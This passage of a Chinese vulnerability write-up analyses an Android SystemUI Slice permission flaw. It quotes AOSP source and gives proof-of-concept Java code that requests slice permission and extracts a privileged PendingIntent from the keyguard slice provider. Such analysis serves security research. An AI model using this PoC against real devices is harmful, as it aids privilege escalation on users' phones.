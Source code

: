 ```java
    public static PendingIntent createPermissionIntent(Context context, Uri sliceUri,
            String callingPackage) {
        Intent intent = new Intent(SliceManager.ACTION_REQUEST_SLICE_PERMISSION);
        intent.setComponent(new ComponentName("com.android.systemui",
                "com.android.systemui.SlicePermissionActivity"));
        intent.putExtra(EXTRA_BIND_URI, sliceUri);
        intent.putExtra(EXTRA_PKG, callingPackage);
        intent.putExtra(EXTRA_PROVIDER_PKG, context.getPackageName());
        // Unique pending intent.
        intent.setData(sliceUri.buildUpon().appendQueryParameter("package", callingPackage)
                .build());

        return PendingIntent.getActivity(context, 0, intent, 0);
    }

```

![Alt text](https://shs3.b.qianxin.com/butian_public/f8117461bc5a44e4b895ed1e711c491c7ec0a1fe9465b.jpg)

模仿上述代码的构造，`poc`中参考其来发送申请权限行为。

```java
Intent intent = new Intent("com.android.intent.action.REQUEST_SLICE_PERMISSION");
        intent.setComponent(new ComponentName("com.android.systemui",
                "com.android.systemui.SlicePermissionActivity"));
Uri uri = Uri.parse(uriKeyguardSlices);
        intent.putExtra("slice_uri", uri);
        intent.putExtra("pkg", getPackageName());
        intent.putExtra("provider_pkg", "com.android.systemui");
        startActivity(intent);
```

接着，获取到`call`函数返回的`Bundle`类型数据后，查看下列代码来挖掘深藏的`mPendingIntent`参数。

```java
    public static final String EXTRA_SLICE = "slice";

    public Bundle call(String method, String arg, Bundle extras) {
        [...]
        b.putParcelable(EXTRA_SLICE, s);
        return b;
    }

 public Slice onBindSlice(Uri sliceUri) {
        Slice slice;
        synchronized (this) {
            ListBuilder builder = new ListBuilder(getContext(), mSliceUri, ListBuilder.INFINITY);
            [...]
            addNextAlarmLocked(builder);
            addZenModeLocked(builder);
            //slice中的第三个数据结构体
            addPrimaryActionLocked(builder);
            slice = builder.build();
        }

  protected void addPrimaryActionLocked(ListBuilder builder) {
        IconCompat icon = IconCompat.createWithResource(getContext(),
                R.drawable.ic_access_alarms_big);

        //第一个也是唯一一个SliceAction数据
        SliceAction action = SliceAction.createDeepl ink(mPendingIntent, icon,
                ListBuilder.ICON_IMAGE, mLastText);
        RowBuilder primaryActionRow = new RowBuilder(Uri.parse(KEYGUARD_ACTION_URI))
                .setPrimaryAction(action);
        builder.addRow(primaryActionRow);
```